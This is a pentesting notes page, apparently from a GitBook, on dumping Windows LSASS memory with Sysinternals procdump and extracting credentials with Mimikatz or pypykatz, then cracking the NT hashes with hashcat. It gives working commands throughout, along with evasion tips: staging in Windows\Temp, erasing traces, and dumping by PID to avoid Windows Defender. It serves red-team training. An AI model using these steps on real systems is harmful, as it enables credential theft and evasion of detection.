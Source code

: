 # Procdump & LSASS

## <mark style="color:red;">Procdump</mark>

{% embed url="https://en.hackndo.com/remote-lsass-dump-passwords/" %}

procdump is a tool created and signed by microsoft for sysadmins and developers to dump a running process memory. It attaches to the process, reads its memory and write it into a file.

{% embed url="https://docs.microsoft.com/en-us/sysinternals/downloads/procdump" %}

the syntax is like this:

```
procdump --accepteula -ma <processus> processus_dump.dmp
```

## <mark style="color:red;">Dumping LSASS from Memory</mark>

#### it’s possible to dump lsass memory on a host, download its dump locally and extract the credentials using Mimikatz.

{% hint style="info" %}
Procdump can be used to dump lsass, since it is considered as legitimate thus it will not be considered as a malware.To do so, send procdump to the server eather by a meterpreter session or nc or smbclient.py from the impacket suit.
{% endhint %}

#### try to upload it to windows/temp directory to avoid attention Once uploaded, procdump needs to be executed in order to create this lsass dump.

```
procdump.exe -accepteula -ma lsass C:\\Windows\\Temp\\lsass.dmp
```

The dump then needs to be downloaded on the attacker’s host, and traces on the remote host should be erased.

#### Credentials can be retrieved with Mimikatz: the first line loads the memory dump, and the second one retrieves the secrets.but we need a windows system for that.

## <mark style="color:red;">Pypykatz</mark>

This technique is very practical since it does not generate much noise and only legitimate executable is used on the targeted hosts. pypykatz is usefull for situations when we want to run everything on a linux machine:

{% embed url="https://github.com/skelsec/pypykatz" %}

download pypykatz from repo or with pip3

```
pip3 install pypykatz
pip3 install minidump minikerberos aiowinreg msldap winsspi
```

open the dump file:

```
pypykatz lsa minidump lsass.dmp
```

now look for the NT values in the out put. (windows hashed passwords) and copy them into a file we crack the hashes with hashcat then:

```
hashcat -m 1000 -a 0 -o cracked.txt hash.txt /usr/share/wordlists/rockyou.txt --status
```

{% hint style="info" %}
dumping lsass is considered as suspicious activity by Windows Defender. When the dumping process is finished, Windows Defender removes the dump after a few seconds. If we have very good connectivity and the dump is not too big, it is possible to download the dump before it’s being deleted.by providing it with lsass PID, Windows Defender no longer complains.We just have to find lsass PID, using the command tasklist for example.
{% endhint %}

```
tasklist /fi "imagename eq lsass.exe"
```

Once we retrieve this PID, we just use it with procdump

```
procdump -accepteula -ma 640 lsass.dmp
```

the dump process above can be dione automatically with spraycatz:

{% embed url="https://github.com/aas-n/spraykatz" %}
